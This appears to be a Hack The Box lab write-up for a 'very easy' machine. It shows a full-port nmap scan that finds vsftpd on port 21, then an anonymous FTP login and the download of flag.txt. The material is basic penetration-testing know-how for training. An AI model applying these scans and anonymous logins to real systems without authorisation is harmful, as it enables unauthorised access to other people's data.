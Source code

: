 #veryeasy 
#ftp

Firstly, we start by opening a VPN connection and launching the VM on HTB.

**Reconnaissance**
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.47. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there is one open port, TCP port 21, which is running a ftp service.
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-16 11:24 CET
Nmap scan report for 10.129.193.47
Host is up (0.051s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix
```


**FTP Protocol**
Since we found an open port, we try to connect to it using the `ftp` command. The system does not ask for credentials when we attempt to connect as anonymous. This suggests that the FTP service is not secure and we can try to exploit it further.
```
ftp $TARGET
```
```
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now that we are in we can search the files that are inside this FTP server and get the ones that we need, in this case we want the flag.txt so we download it with the `get` command
```
ls
get flag.txt
```